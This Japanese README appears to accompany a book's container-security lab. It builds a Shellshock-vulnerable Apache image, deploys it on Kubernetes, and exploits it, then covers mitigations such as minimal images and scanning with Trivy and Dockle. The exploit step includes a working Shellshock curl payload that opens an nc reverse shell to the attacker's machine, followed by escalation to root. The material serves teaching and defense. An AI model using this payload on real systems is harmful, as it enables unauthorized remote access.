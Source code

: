 # ケース1: コンテナの脆弱性を悪用されてしまった

`コンテナイメージのビルド（cve-2014-6271-apache-debian:buster）`
```bash
ls

docker build -t taikiuejo0730/cve-2014-6271-apache-debian:buster .
```

`コンテナイメージのアップロード（cve-2014-6271-apache-debian:buster）`
```bash
docker push taikiuejo0730/cve-2014-6271-apache-debian:buster
```

`コンテナイメージのビルド（sample-web:case1）`
```bash
ls

docker build -t taikiuejo0730/sample-web:case1 .
```

`コンテナイメージのアップロード（sample-web:case1）`
```bash
docker push taikiuejo0730/sample-web:case1
```

`PodとServiceのデプロイ`
```bash
kubectl apply -f sample-web.yaml
```

`minikube tunnelコマンドの実行`
```bash
minikube tunnel
```

`PodおよびServiceの状態確認`
```bash
kubectl get all -l app=sample-web
```

`curlコマンドによるアクセス確認`
```bash
curl http://<EXTERNAL-IP>
```

`ターミナル1: ncコマンドの実行`
```bash
nc -nvlp 5050
```

`ターミナル2: curlコマンドによる不正なリクエストの送信`
```bash
curl -H "user-agent: () { :; }; echo; /bin/nc -e /bin/bash <端末のIPアドレス> 5050" http://<EXTERNAL-IP>/cgi-bin/vulnerable
```

`ターミナル1: Podに含まれるコンテナへの侵入`
```bash
hostname

id
```

`ターミナル1: コンテナ内でのrootユーザーへの切り替え`
```bash
sudo su -

id
```

`ターミナル1: rootユーザー権限での操作`
```bash
cd /

touch test

ls /test

apt-get update

apt-get install -y curl

curl -h
```

`通常のhttpdとalpineベースのサイズ比較`
```bash
docker pull httpd:2.4.57

docker pull httpd:2.4.57-alpine

docker images httpd
```

`リストX.1.23. hello-worldコンテナの起動`
```bash
docker run --rm hello-world
```

`コンテナイメージのサイズ確認（マルチステージビルドなし）`
```bash
docker build -t taikiuejo0730/sample-web:go-standard -f Dockerfile-standard .

docker images taikiuejo0730/sample-web:go-standard
```

`コンテナイメージのサイズ確認（マルチステージビルドあり）`
```bash
docker build -t taikiuejo0730/sample-web:go-multi -f Dockerfile-multi .

docker images taikiuejo0730/sample-web:go-multi
```

`リポジトリへのコンテナイメージアップロード（sample-web-go）`
```bash
docker push taikiuejo0730/sample-web:go-standard

docker push taikiuejo0730/sample-web:go-multi
```

`Podのデプロイと確認`
```bash
kubectl apply -f sample-web-go-standard.yaml

kubectl apply -f sample-web-go-multi.yaml

kubectl get pods -l app=sample-web-go
```

`sample-web-go-standardに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-standard -- /bin/bash

root@sample-web-go-standard:/go/src/app# ps aux

root@sample-web-go-standard:/go/src/app# exit
```

`sample-web-go-multiに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-multi -- /bin/bash
```

`エフェメラルコンテナの使用`
```bash
kubectl debug -it sample-web-go-multi --image=busybox:1.28 --target=web

/ # ps aux

/ # ls /proc/1/root

/ # exit
```

`エフェメラルコンテナの状態確認`
```bash
kubectl describe pod sample-web-go-multi
```


`Trivyのインストール`
```bash
curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sudo sh -s -- -b /usr/local/bin v0.50.1
```

`Trivyによるコンテナイメージのスキャン（2024年4月時点）`
```bash
trivy image taikiuejo0730/sample-web:case1
```

`Dockleのインストール`
```bash
curl -LO https://github.com/goodwithtech/dockle/releases/download/v0.4.14/dockle_0.4.14_Linux-64bit.tar.gz

tar xvf dockle_0.4.14_Linux-64bit.tar.gz

chmod +x ./dockle

sudo mv ./dockle /usr/local/bin/dockle
```

`Dockleによるコンテナイメージのスキャン（2024年4月時点）`
```bash
dockle taikiuejo0730/sample-web:case1
```

`検証に使用したリソースの削除`
```bash
kubectl delete pod sample-web \
    sample-web-go-standard \
    sample-web-go-multi

kubectl delete service sample-web
```